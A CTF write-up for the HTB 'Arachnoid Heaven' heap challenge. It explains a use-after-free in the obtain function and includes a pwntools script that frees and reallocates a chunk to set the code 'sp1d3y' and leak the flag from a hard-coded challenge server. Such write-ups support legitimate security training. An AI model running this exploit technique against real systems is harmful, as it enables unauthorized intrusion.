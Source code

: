 # Arachnoid Heaven (Pwn) Writeup
Running the binary, we can quickly conclude that this is a heap challenge.

!(https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/screenshots/arachnoid_menu.png)

Reading the pseudocode in ida, we come across the **obtain** function:

** insert obtain function pseudocode **

It checks if the *Code* corresponding to a particular arachnoid is set to 'sp1d3y',
and if so, it prints out the flag.

The user chooses the arachnoid index to obtain, and nothing is stopping us from
selecting a chunk that has been freed.
So there we have it: a Use-After-Free vulnerability.
We can use this to exploit the program.

```
#!/usr/bin/env python3
from pwn import *

def exploit():
  _bin = './arachnoid_heaven'
  elf = ELF(_bin)
  local = False

  if local:
    log.info('** Running exploit LOCALLY **')
    r = elf.process()
  else:
    log.info('** Running exploit against REMOTE server **')
    ip, port = '167.172.58.213', 31168   # CHANGE THIS
    r = remote(ip, port)
  
  r.sendlineafter(b'>', b'1') # craft arachnoid
  r.sendlineafter(b'Name:', b'koulis') # initial spider name

  r.sendlineafter(b'>', b'2') # delete arachnoid
  r.sendlineafter(b'Index:', b'0') # select 1st arachnoid

  r.sendlineafter(b'>', b'1') # craft arachnoid again
  # name it sp1d3y, so arachnoid's Code at index 0 is set to sp1d3y
  r.sendlineafter(b'Name:', b'sp1d3y')

  r.sendlineafter(b'>', b'4') # obtain arachnoid with index 0
  r.sendlineafter(b'Arachnoid:', b'0')

  r.recvline() # junk
  log.success('** PWNED **')
  flag = r.recvline().decode()
  log.success(f'flag : {flag}')


if __name__ == '__main__':
  exploit()
```
